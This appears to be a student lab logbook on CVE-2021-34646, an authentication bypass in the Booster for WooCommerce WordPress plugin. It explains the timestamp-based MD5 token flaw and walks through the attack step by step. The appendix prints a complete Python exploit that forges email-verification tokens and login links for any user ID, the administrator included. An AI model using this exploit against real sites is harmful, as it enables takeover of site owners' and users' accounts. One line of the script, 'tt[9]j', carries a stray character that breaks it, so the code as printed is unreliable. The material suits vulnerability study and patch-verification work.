 # LOGBOOK 3 - CVE-2021-34646

Versions of the Booster for WooCommerce WordPress plugin up to and including 5.4.3 have a security vulnerability related to authentication bypass. This vulnerability stems from a weakness in the random token generation process within the "reset_and_mail_activation_link" function. Exploiting this vulnerability enables malicious actors to impersonate users and trigger email address verification for arbitrary accounts, including those with administrative privileges. Consequently, attackers can automatically log in as the targeted user, including site administrators.

## CVE Explanation

A critical vulnerability was discovered in the WordPress plugin known as "Booster for WooCommerce" (CVE-2021-34646). When the plugin's Email Verification module was activated along with the "Login User After Successful Verification" setting, it exposed a severe security flaw. This vulnerability allowed malicious actors to gain unauthorized access to the website by impersonating any user, ranging from regular users to administrative accounts. The root cause of this issue was a weakness in the token generation process within the "reset_and_mail_activation_link" function, located in the "~/includes/class-wcj-emails-verification.php" file.

The primary issue with the plugin centered around the generation of verification tokens required to validate email addresses. Specifically, the code employed a simplistic MD5 hash of the timestamp when the request was initiated. Consequently, an attacker could easily replicate the verification code for any user account by determining the timestamp of their request.

Moreover, additional design flaws were present on the website. One notable issue was the inadvertent disclosure of the software stack used by the webpage. This disclosure inadvertently assisted attackers in identifying potential vulnerabilities in the project.

![wordpress info](images/LOGBOOK3/image.png)

Furthermore, there was an oversight in the password recovery process. When attempting to recover a password with only the user's email address and clicking the submit button, the system provided distinct success or error messages. This inconsistency in responses, regardless of whether the account existed or not, inadvertently leaked valuable information to potential attackers, thereby aiding them in targeting the website.

![wordpress info](images/LOGBOOK3/image1.png)

![wordpress info](images/LOGBOOK3/image2.png)

In summary, this critical vulnerability presented an opportunity for attackers to exploit the website with the objective of gaining administrative access and subsequently taking control of it.

## Attack step-by-step
1. Inspect the entire website. There is a page that indicates the versions of the plugins that are installed.
2. Search online for CVEs related to the software. You will find many. In this case, we received a tip that it had something to do with authentication, so that should narrow it down.
3. You will find the source code below. Download it. It is a python exploit that generates login tokens based on timestamps and constructs URLs that can potentially grant unauthorized access to the targeted WordPress site.
4. To use the exploit, one must simply access the target websites REST API endpoint, as described in the source code, and retrieve user data, more specifically, their IDs.
5. The hacker only needs to run the script with two parameters, the target website's URL and the desired user's ID, gaining access to the user's account.

## Appendix A - Source Code

```python
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)


def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]j

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()



for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")

```
